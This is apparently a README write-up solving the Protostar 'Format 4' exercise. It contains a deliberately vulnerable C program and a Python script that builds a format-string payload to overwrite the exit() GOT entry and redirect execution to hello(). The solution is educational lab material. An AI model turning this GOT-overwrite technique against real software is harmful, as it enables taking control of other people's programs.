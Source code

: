 # A-short-solution-to-Protostar-level-Format-4
## the c code
Here's the source code 
```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int target;

void hello()
{
  printf("code execution redirected! you win\n");
  _exit(1);
}

void vuln()
{
  char buffer[512];

  fgets(buffer, sizeof(buffer), stdin);

  printf(buffer);

  exit(1);   
}

int main(int argc, char **argv)
{
  vuln();
}
```
As you can see the main function calls vuln() which calls fgets to take input in the buffer and the print it via printf() and *then calls the exit function*
Our aim is to redirect the code execution to hello(). This is an easy problem so I will only *very* briefly explain the basic idea behind the soution. 

Since there is a exit call, there is no use of overwriting the return address pointer on the stack.

To redirect the code execution, we simply go to procedure linkage table of the program which will lead us to the exit address on the Global offset table.
Now we exploit the format string exploit to overwrite it. 
Now the usual solutions you will see on internet(like the one on the live overflow website) involve overwriting it in two parts using format specifier %n and some little neat tricks with their modifiers.
But half the hexadecimal address is still a very large number in decimal. We have to print thousands of blank spaces to achieve that overwrite.

What we can do instead is write the address in four passes writing 1 byte in each passes. We can significantly reduce the number of printed characters from tens of thousands to a few hundred. 
There will be over flow in each write but that will get overwritten in the next pass and in the 4th pass the overflow will be to the next memory adress (with reference to the script it'll be at EXIT4) but since we care only about 4 bytes it'll work

Note that the code will only run on protostarOS for obvious reasons.
##Here's the actual python code to do so
```
HELLO = 0x080484b4
EXIT = 0x08049724
EXIT1 = 0x8049725
EXIT2 = 0x8049726
EXIT3 = 0x8049727
EXIT4 = 0x8049728
def pad(s):
   return s+"X"*(512-len(s))

exploit = ""
exploit+= "AAAA"
exploit+= struct.pack("I",EXIT)
exploit+= struct.pack("I",EXIT1)
exploit+= struct.pack("I",EXIT2)
exploit+= struct.pack("I",EXIT3)
exploit+= struct.pack("I",EXIT4)

exploit+= "i%4$155x%5$n%208x%6$n%128x%7$n%260x%8$n"

print pad(exploit)
```
